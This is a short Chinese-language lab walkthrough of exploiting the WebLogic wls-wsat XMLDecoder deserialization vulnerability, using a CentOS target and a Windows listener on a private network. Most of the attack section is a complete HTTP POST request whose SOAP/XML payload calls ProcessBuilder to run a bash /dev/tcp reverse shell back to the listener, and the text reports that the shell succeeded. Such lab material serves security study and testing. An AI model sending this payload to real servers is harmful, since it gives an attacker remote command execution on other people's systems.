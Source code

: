 靶机：CentOS7（192.168.2.101:7001）

监听机器：Windows7（192.168.2.104:1234）

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220108101419.png)

<br>

漏洞利用：

访问URL：```http://ip:7001/wls-wsat/CoordinatorPortType11```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110094659.png)

访问这个目录,利用burp抓包,修改请求为post,content-type为text/xml,构造如下xml数据并发送

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.2.101:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 642


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.2.104/1234 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

![](https://cdn.jsdelivr.net/gh/QJLONG/HUMMER-PIC@master/img/20220110115937.png)

反弹shell成功
